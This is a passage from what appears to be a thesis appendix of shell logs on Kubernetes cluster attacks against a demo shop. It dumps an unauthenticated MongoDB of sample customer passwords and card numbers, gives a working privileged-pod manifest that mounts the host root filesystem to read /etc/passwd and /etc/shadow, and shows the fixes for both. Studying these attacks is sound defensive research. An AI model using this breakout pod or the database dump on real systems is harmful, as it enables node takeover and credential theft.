Server has startup warnings:
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten]
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
> show dbs
admin  0.000GB
local  0.000GB
users  0.000GB
> use users
switched to db users
> db.customers.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830af"), "firstName" : "Eve", "lastName" : "Berger", "username" : "Eve_Berger", "password" : "fec51acb3365747fc61247da5e249674cf8463c2", "salt" : "c748112bc027878aa62812ba1ae00e40ad46d497", "addresses" : [ ObjectId("57a98d98e4b00679b4a830ad") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830ae") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b2"), "firstName" : "User", "lastName" : "Name", "username" : "user", "password" : "e2de7202bb2201842d041f6de201b10438369fb8", "salt" : "6c1c6176e8b455ef37da13d953df971c249d0d8e", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b0") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b1") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b5"), "firstName" : "User1", "lastName" : "Name1", "username" : "user1", "password" : "8f31df4dcc25694aeb0c212118ae37bbd6e47bcd", "salt" : "bd832b0e10c6882deabc5e8e60a37689e2b708c2", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b3") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b4") ] }
> db.addresses.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ad"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b0"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b3"), "number" : "4", "street" : "Maes-Y-Deri", "city" : "Aberdare", "postcode" : "CF44 6TF", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d1"), "number" : "3", "street" : "my road", "city" : "London", "country" : "UK" }
> db.cards.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ae"), "longNum" : "5953580604169678", "expires" : "08/19", "ccv" : "678" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b1"), "longNum" : "5544154011345918", "expires" : "08/19", "ccv" : "958" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b4"), "longNum" : "0908415193175205", "expires" : "08/19", "ccv" : "280" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d2"), "longNum" : "5429804235432", "expires" : "04/16", "ccv" : "432" }
>
\end{lstlisting}

\subsection{Lateral movement attack remediation in the AKS cluster}
\begin{lstlisting}[
	caption={Shell I/O of mitigating the \gls{aks} cluster attack by lateral movement},
	label={lst:lateral-aks-mitigate},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
lukas@Azure:~$ cat sock-shop-ingress-netpol.yaml
kind: NetworkPolicy
apiVersion: networking.k8s.io/v1
metadata:
  namespace: sock-shop
  name: sock-shop-ingress-netpol
spec:
  podSelector:
    matchLabels:
  ingress:
  - from:
    - podSelector: {}
lukas@Azure:~$ kubectl apply -f sock-shop-ingress-netpol.yaml -n sock-shop
networkpolicy.networking.k8s.io/sock-shop-ingress-netpol configured
lukas@Azure:~$ kubectl describe netpol -n sock-shop
Name:         sock-shop-ingress-netpol
Namespace:    sock-shop
Created on:   2019-06-18 12:00:09 +0000 UTC
Labels:       <none>
Annotations:  kubectl.kubernetes.io/last-applied-configuration:
                {"apiVersion":"networking.k8s.io/v1","kind":"NetworkPolicy","metadata":{"annotations":{},"name":"sock-shop-ingress-netpol","namespace":"so...
Spec:
  PodSelector:     <none> (Allowing the specific traffic to all pods in this namespace)
  Allowing ingress traffic:
    To Port: <any> (traffic allowed to all ports)
    From:
      PodSelector: <none>
  Allowing egress traffic:
    <none> (Selected pods are isolated for egress connectivity)
  Policy Types: Ingress
lukas@Azure:~$ kubectl get service -n sock-shop
NAME           TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)        AGE
carts          ClusterIP   10.0.144.225   <none>        80/TCP         29m
carts-db       ClusterIP   10.0.174.90    <none>        27017/TCP      29m
catalogue      ClusterIP   10.0.243.165   <none>        80/TCP         29m
catalogue-db   ClusterIP   10.0.60.122    <none>        3306/TCP       29m
front-end      NodePort    10.0.255.214   <none>        80:30001/TCP   29m
orders         ClusterIP   10.0.145.107   <none>        80/TCP         29m
orders-db      ClusterIP   10.0.217.238   <none>        27017/TCP      29m
payment        ClusterIP   10.0.91.69     <none>        80/TCP         29m
queue-master   ClusterIP   10.0.219.119   <none>        80/TCP         29m
rabbitmq       ClusterIP   10.0.202.131   <none>        5672/TCP       29m
shipping       ClusterIP   10.0.118.47    <none>        80/TCP         29m
user           ClusterIP   10.0.52.200    <none>        80/TCP         29m
user-db        ClusterIP   10.0.81.32     <none>        27017/TCP      29m
lukas@Azure:~$ kubectl exec -it network-utils -- /bin/sh
# ./mongodb-linux-x86_64-4.0.10/bin/mongo 10.0.81.32
MongoDB shell version v4.0.10
connecting to: mongodb://10.0.81.32:27017/test?gssapiServiceName=mongodb
2019-06-18T12:05:06.734+0000 E QUERY    [js] Error: couldn't connect to server 10.0.81.32:27017, connection attempt failed: SocketException: Error connecting to 10.0.81.32:27017 :: caused by :: Connection timedout :
connect@src/mongo/shell/mongo.js:344:17
@(connect):2:6
exception: connect failed
#
\end{lstlisting}

\subsection{Container breakout attack conduction in the AKS cluster}

\begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{aks} cluster attack by breakout},
	label={lst:breakout-aks-exploit},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
lukas@Azure:~$ cat container_breakout.yaml
apiVersion: v1
kind: Pod
metadata:
    name: breakout
spec:
    containers:
    - name: breakout
      securityContext:
        privileged: true
      image: alpine
      command: ["/bin/sh"]
      args: ["-c",
                'echo -e "        /etc/passwd of underlying node";
                cat /mnt/rootnode/etc/passwd;
                echo -e "-----------\n        /etc/shadow of underlying node";
                cat /mnt/rootnode/etc/shadow;
                echo -e "-----------\n        root directory of underlying node";
                ls -la /mnt/rootnode/;
                touch /mnt/rootnode/ALL_YOUR_NODES_ARE_BELONG_TO_US;
                echo -e "-----------\n        root directory of underlying node after manipulation through this container";
                ls -la /mnt/rootnode/;
                while true;
                  do sleep 30;
                done;'
        ]
      volumeMounts:
      - name: root-volume
        mountPath: /mnt/rootnode
    volumes:
    - name: root-volume
      hostPath:
        path: /
lukas@Azure:~$ kubectl apply -f container_breakout.yaml
pod/breakout created
lukas@Azure:~$ kubectl logs breakout
        /etc/passwd of underlying node
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
azureuser:x:1001:1001:Ubuntu:/home/azureuser:/bin/bash
-----------
        /etc/shadow of underlying node
root:$6$w9SIk+c=<REDACTED>/:18039:0:99999:7:::
daemon:*:18030:0:99999:7:::
bin:*:18030:0:99999:7:::
...
azureuser:!:18064:7:90:7:30::
-----------
        root directory of underlying node
total 100
drwxr-xr-x   23 root     root          4096 Jun 17 12:59 .
drwxr-xr-x    1 root     root          4096 Jun 17 13:02 ..
-rw-------    1 root     root          1024 Jun 17 07:56 .rnd
drwxr-xr-x    2 root     root          4096 May 23 18:48 bin
...
lrwxrwxrwx    1 root     root            30 May 15 03:24 vmlinuz.old -> boot/vmlinuz-4.15.0-1045-azure
-----------
        root directory of underlying node after manipulation through this container
total 100
drwxr-xr-x   23 root     root          4096 Jun 17 13:02 .
drwxr-xr-x    1 root     root          4096 Jun 17 13:02 ..
-rw-------    1 root     root          1024 Jun 17 07:56 .rnd
-rw-r--r--    1 root     root             0 Jun 17 13:02 ALL_YOUR_NODES_ARE_BELONG_TO_US
drwxr-xr-x    2 root     root          4096 May 23 18:48 bin
...
lrwxrwxrwx    1 root     root            30 May 15 03:24 vmlinuz.old -> boot/vmlinuz-4.15.0-1045-azure
\end{lstlisting}

\subsection{Container breakout node file system in the AKS cluster}

\begin{lstlisting}[
	caption={Shortened version of the shell I/O on the \gls{aks} cluster worker node after the attack by breakout},
	label={lst:breakout-aks-nodeOutput},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
azureuser@aks-agentpool-35206649-1:~$ ls -la /
total 100
drwxr-xr-x  23 root root  4096 Jun 17 13:02 .
drwxr-xr-x  23 root root  4096 Jun 17 13:02 ..
-rw-r--r--   1 root root     0 Jun 17 13:02 ALL_YOUR_NODES_ARE_BELONG_TO_US
drwxr-xr-x   2 root root  4096 May 23 18:48 bin
...
lrwxrwxrwx   1 root root    30 May 15 03:24 vmlinuz.old -> boot/vmlinuz-4.15.0-1045-azure
\end{lstlisting}

\subsection{Container breakout attack remediation in the AKS cluster}
\begin{lstlisting}[
	caption={Shortened version of the shell I/O while mitigating the \gls{aks} cluster attack by breakout},
	label={lst:breakout-aks-mitigate},
	basicstyle=\tiny,
	language=bash,
	breaklines=true]
lukas@Azure:~$ kubectl get pods
NAME            READY   STATUS    RESTARTS   AGE
network-utils   1/1     Running   0          17m
lukas@Azure:~$ az aks update --resource-group kubernetes-ba-test --name demo-cluster-LGR --enable-pod-security-policy
{
  "aadProfile": null,
...
  "type": "Microsoft.ContainerService/ManagedClusters",
  "windowsProfile": null
}
lukas@Azure:~$ kubectl create serviceaccount --namespace testuser nonadmin-user
serviceaccount/nonadmin-user created
lukas@Azure:~$ kubectl create rolebinding --namespace testuser nonadmin-rolebinding --clusterrole=edit --serviceaccount=testuser:nonadmin-user
rolebinding.rbac.authorization.k8s.io/nonadmin-rolebinding created
lukas@Azure:~$ kubectl --as=system:serviceaccount:testuser:nonadmin-user apply -f container_breakout.yaml
Error from server (Forbidden): error when creating "container_breakout.yaml": pods "breakout" is forbidden: unable to validate against any pod security policy: [spec.volumes[0]: Invalid value: "hostPath": hostPath volumes are not allowed to be used spec.containers[0].securityContext.privileged: Invalid value: true: Privileged containers are not allowed]
\end{lstlisting}